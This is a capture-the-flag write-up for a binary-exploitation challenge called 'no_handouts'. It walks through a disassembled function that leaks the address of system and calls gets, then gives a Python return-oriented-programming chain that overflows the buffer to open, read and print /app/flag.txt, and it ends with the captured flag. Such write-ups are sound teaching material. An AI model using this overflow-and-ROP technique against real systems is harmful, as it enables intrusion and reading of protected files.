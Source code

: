 # no_handouts

This challenge provided no source code, but it did provide a binary `chall`.

Disassembling it, I saw that the `main` function called `vuln`, which is as follows:

```asm
<vuln>:
endbr64
push   %rbp
mov    %rsp,%rbp
sub    $0x20,%rsp
lea    0xe05(%rip),%rax    ; "system() only works if there's a shell in the first place!"
mov    %rax,%rdi
call   puts
mov    0x2dce(%rip),%rax   ; system
mov    %rax,%rsi
lea    0xe2c(%rip),%rax    ; "Don't believe me? Try it yourself: it's at %p"
mov    %rax,%rdi
mov    $0x0,%eax
call   printf
lea    0xe48(%rip),%rax    ; "Surely that's not enough information to do anything else."
mov    %rax,%rdi
call   puts
lea    -0x20(%rbp),%rax
mov    %rax,%rdi
mov    $0x0,%eax
call   gets
mov    $0x0,%eax
leave
ret
```

So this just says where `system` is, and then calls `gets` to provide a free buffer overflow.
It's also given that the flag is located at `/app/flag.txt`

Using the provided location of `system`, we know where `libc` is located. Thanks to this, we can open() the flag, read() its contents, and then puts() the result.

Here's the ROP chain that worked for me:

```python
start_addr = elf_libc.bss() # readable/writable section. We can use this as a buffer
filename = start_addr + 0x00
flag = start_addr + 0x20

flag_length = 50 # INCREASE IF NOT SUFFICIENT
rop_chain = [

             # build "/app/flag.txt" string
             pop_rax, libc + filename,
             pop_rdx_r12, 0x616C662F7070612F, 0, # /app/fla
             mov_at_rax_rdx,  # this gadget is mov qword ptr [rax], rdx ; ret
             pop_rax, libc + filename + 8,
             pop_rdx_r12, 0x7478742E67, 0,       # g.txt
             mov_at_rax_rdx,

             # open file
             pop_rdi, libc + filename,
             pop_rsi, 0,
             pop_rdx_r12, 0, 0,
             open_c,

             # read file
             pop_rdi, 3, # guess at fd, (first fd after STDIN, STDOUT, and STDERR)
             pop_rsi, libc + flag,
             pop_rdx_r12, flag_length, 0,
             read,

             # write value
             pop_rdi, libc + flag,
             puts,
            ]
```

After injecting that, I got this output: `bctf{sh3lls_ar3_bl0at_ju5t_use_sh3llcode!}`
As this flag says, this is not the only way this could've been solved.



